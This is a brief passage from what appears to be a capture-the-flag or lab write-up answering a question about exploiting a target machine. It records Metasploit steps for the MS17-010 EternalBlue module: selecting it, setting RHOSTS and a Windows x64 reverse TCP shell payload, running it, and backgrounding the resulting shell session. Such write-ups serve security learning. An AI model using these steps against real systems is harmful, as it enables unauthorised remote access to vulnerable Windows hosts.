**Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**
- search `ms17_010`
- Upon reading, there are a few different choices, however I selected the option '0' which is the eternal_blue vulnerability
	- `use 0`
- Set RHOSTS = TARGET IP, Set Payload = `regular shell` -> `windows/x64/SHELL/reverse_tcp`


Upon running `run/exploit` I had gained access to the target machine via reverse tcp connection. 
- I was granted a shell, and then backgrounded it using (CTRL+Z) as a session